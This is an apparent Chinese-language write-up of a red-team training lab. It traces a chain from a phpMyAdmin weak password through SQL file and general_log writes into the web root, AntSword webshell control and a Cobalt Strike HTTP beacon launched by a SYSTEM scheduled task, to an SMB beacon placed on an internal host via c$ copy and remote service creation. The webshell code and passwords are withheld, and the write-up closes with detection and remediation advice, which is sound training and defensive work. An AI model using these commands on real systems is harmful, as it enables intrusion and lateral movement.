

红日靶场
P1–P28 学习复盘：从 phpMyAdmin 到 SMB Beacon · 日期：2026-10-18
一、结论与证据范围
本轮完成的可验证终点是：边界机 STU1 通过 HTTP Beacon 上线，内网机 OWA 通过边界机建立 SMB 子会话。
没有取得域控会话，也没有用 OWA 的 SYSTEM 权限推导“已经控制域”。
events.log、beacon_*.log、phpStudy 服务状态、AntSword/CS 现场截图，
以及 10 月 18 日保存的会话恢复记录。
P18–P19 的原始请求正文没有完整留存，因此下文的 SQL 是用于复现的最小等价步骤。 本地已确认弱默认口令可用并取得了执行通道，但不把未保存的请求正文写成逐字执行证据。 该靶场在本轮记录中没有 CTF flag，结果是会话与权限边界。
二、环境与网络
| 角色 | 地址/主机 | 账号或状态 | 证据 |
|---|---|---|---|
| TeamServer | WSL 192.168.111.1:54321 | Cobalt Strike | 本地监听与会话日志 |
| HTTP Listener | :8080 | http-8080 | Web 访问日志 |
| 边界机 | STU1 192.168.111.128 | GOD\Administrator | beacon metadata |
| 内网机 | OWA 192.168.52.138 | SYSTEM | SMB 子会话 metadata |
| 主机虚拟网卡 | VMnet1 192.168.111.1/24 | 可访问 STU1 | TCP 80/3389 检查 |
CS 界面中的 169.254.129.186 是虚拟机网卡枚举异常造成的显示值。
边界机的实际地址仍为 192.168.111.128，不能据此修改靶机原有的网络配置。
三、P1–P17：准备与入口确认
P1–P7 主要覆盖 HVV、红队职责、人员分工和学习路线；P8–P17 进入靶场环境、Win7 调试、 内网/域账号定位、信息收集、Web 漏洞和 WebShell 原理。本轮将它们归并为两个可检查条件： 入口 Web 服务可用，边界机能访问内网 OWA。
Test-NetConnection 192.168.111.128 -Port 80 -InformationLevel Quiet
Test-NetConnection 192.168.111.128 -Port 3389 -InformationLevel Quiet两项检查均返回 True。HTTP 响应中记录的旧版组件为：
Apache/2.4.23 (Win32) OpenSSL/1.0.2j PHP/5.4.45本地弱口令验证已经成功，但口令值不进入发布稿。这里必须区分：HTTP 200 只代表服务可达； 只有成功登录后的管理页面或认证成功标志，才能证明数据库账号可用。
四、P18–P19：phpMyAdmin GetShell
根因
高权限数据库账号不仅能读写业务数据，还能控制文件写入或全局日志位置。 当数据库进程对 Web 根目录有写权限时，SQL 能力就可能跨到 PHP 代码执行。
SELECT @@version, @@datadir, @@secure_file_priv;先写入一个只返回固定标记的非破坏性测试文件。为避免在会话日志和发布页面中保存可直接复用的 WebShell， 下面用占位符代替可执行代码：
SELECT '<LAB_PROBE_PHP>'
INTO OUTFILE 'C:/phpStudy/WWW/lab_probe.php';
<LAB_PROBE_PHP> 应替换为只返回固定标记、不含命令执行或外部回连的最小 PHP 测试内容。
访问对应 URL，看到固定标记才能说明数据库写权限变成了 Web 代码执行。
该路径受 secure_file_priv、目录权限和 MySQL 版本影响；失败时不能伪称成功。
如果直接写文件被限制，课程 P19 的全局日志路径可以这样复现：
SET GLOBAL general_log = 'OFF';
SET GLOBAL general_log_file = 'C:/phpStudy/WWW/lab_probe.php';
SET GLOBAL general_log = 'ON';
SELECT '<LAB_PROBE_PHP>';
SET GLOBAL general_log = 'OFF';
实际路径必须按靶场目录调整。日志文件会带时间和 SQL 前缀，PHP 遇到 PHP 开始标记后仍可执行其中的测试内容。
验证完成应关闭 general_log 并清理测试文件。
五、P20：AntSword 接管边界机
AntSword 的作用是把已确认的代码执行能力变成文件管理、虚拟终端和 payload 上传通道， 不是漏洞存在的证明。连接后先做最小检查：
whoami
hostname
ipconfig /all边界机最终返回的 CS 身份为：
god\administrator发布稿不包含蚁剑连接口令、Cookie 或原始 WebShell 内容。
六、P21–P24：3389 与内网条件
宿主机检查 192.168.111.128:3389 返回 True，但这只证明 TCP 端口可达，
不等同于已经完成 RDP 登录。本轮分别保留端口开放、账号定位和实际登录结果，不把前者扩写成后者。
本地记录确认了内网横向所需的关键事实：
owa.god.org -> 192.168.52.138
\\192.168.52.138\c$ 可访问
ipconfig /all、whoami /all、名称解析和 SMB 访问可以建立网络基线；
但真正证明横向条件的是后续文件复制、远程服务创建和 SMB 管道连接，而不是单次 ping。
七、P25–P27：HTTP Beacon 上线
TeamServer 在本机 WSL 中监听 54321，HTTP listener 使用 8080：
./TeamServerImage \
-Dcobaltstrike.server_port=54321 \
-Dcobaltstrike.server_bindto=0.0.0.0 \
-Djavax.net.ssl.keyStore=./cobaltstrike.store \
-Djavax.net.ssl.keyStorePassword=<LabKeystorePassword> \
-Duser.language=en \
teamserver 192.168.111.1 <LabTeamServerPassword>
边界 payload 通过蚁剑上传后启动。恢复现场使用计划任务，避开模拟 shell 对 start 支持不稳定的问题：
schtasks /create /tn csrun /tr "C:\phpStudy\WWW\artifact.exe" /sc once /st 23:59 /ru SYSTEM /f
schtasks /run /tn csrun10 月 17 日实际观察到：
GET /TZEj/ 200 277063
computer: STU1
user: Administrator
process: artifact.exe
pid: 2924
os: Windows 6.1 build 7601 x64
stager artifact.exe 为 19,456 字节，拉取的 stage 为 277,063 字节。
会话建立后执行 sleep 1 与 shell whoami，输出 god\administrator。
八、P28：SMB Beacon 穿透不出网主机
OWA 不能直接回连 TeamServer，因此由 STU1 作为父会话承载 SMB 子会话。
upload /path/to/SMB.exe C:\phpStudy\WWW\SMB.exe
shell copy SMB.exe \\192.168.52.138\c$本地实际输出：
已复制 1 个文件。shell sc \\owa.god.org create test binpath= "cmd.exe /c c:\SMB.exe"
shell sc \\owa.god.org start test[SC] CreateService 成功
[SC] StartService 失败 1053:
服务没有及时响应启动或控制请求。
1053 不是这里的最终失败。普通程序不是标准 Windows 服务，SCM 等不到服务握手会报错，
但进程仍可运行。随后直接连接命名管道：
link owa.god.orgTasked to link to \\owa.god.org\pipe\<pipe_name>
established link to child beacon: 192.168.52.138OWA 子会话 metadata：
computer: OWA
user: SYSTEM
process: SMB.exe
pid: 1292
os: Windows 6.1 build 7601 x64P28 的交付目标是“不出网内网机通过边界机的 SMB 管道上线”，不是域控接管。
九、现场结果

十、重启后的恢复
- 启动两台虚拟机，确认 STU1 的 80、3389 可达。
- 重新启动 TeamServer 和客户端。
- 通过蚁剑再次启动
artifact.exe，等待 STU1 上线。 - 执行
shell sc \\owa.god.org start test。 - 执行
link owa.god.org，确认新的 SMB 子会话。
Beacon 默认只在内存中存活，因此虚拟机重启后不会自动恢复。
10 月 18 日还把 phpStudy 的 Apache、MySQL 注册为 AUTO_START、LocalSystem 服务。
Apache 经过“杀掉原 httpd 后执行 net start Apache2.4”验证成功，phpMyAdmin 返回 HTTP 200；
MySQL 服务已注册，但没有写成已经完成同等运行验证。
十一、踩坑与判断
| 现象 | 原因 | 处理 |
|---|---|---|
| 重启后会话为 0 | beacon 只活在内存中 | 重新运行 stager，再恢复 SMB link |
| 蚁剑执行后终端无回显 | 前台 payload 阻塞 PHP 请求 | 重开终端，或改用计划任务 |
start 只返回 ret=1 | 模拟 shell 兼容性有限 | 使用 schtasks |
| CS 窗口空白，拖拽后才显示 | Java 与 WSLg/Swing 重绘问题 | 使用 Java 11 与固定 UI scale |
sc start 返回 1053 | 普通程序不是标准服务 | 检查进程与 link，不只看 SCM 返回值 |
IP 列出现 169.254.* | 虚拟机网卡枚举异常 | 以实际边界网 192.168.111.128 为准 |
十二、检测与修复
- 删除 phpMyAdmin 默认或弱口令，禁止数据库账号从边界网直接登录。
- 使用最小权限数据库账号，关闭不必要的
FILE能力和动态全局日志写入。 - Web 根目录不应对数据库服务账号或普通应用账号可写。
- 限制 445 与 SMB 管理通道，监控远程服务创建和高权限服务账号变更。
- 升级 phpStudy、Apache、PHP 和 phpMyAdmin，移除不需要的管理入口。
- 监控异常 HTTP stager、短周期回连、SMB 命名管道和边界机发起的内网文件复制。
- 3389 应限制来源、使用强认证，并分别记录端口、认证和桌面登录结果。
十三、复盘
服务发现
-> phpMyAdmin 弱口令
-> SQL 写文件/日志 GetShell
-> AntSword 控制边界机
-> CS HTTP Beacon
-> SMB Beacon 进入不出网内网机
每个箭头都需要独立证据：端口可达不等于登录成功，数据库报错不等于文件已写入，
1053 不等于 SMB 会话失败，SYSTEM 子会话也不等于域控失陷。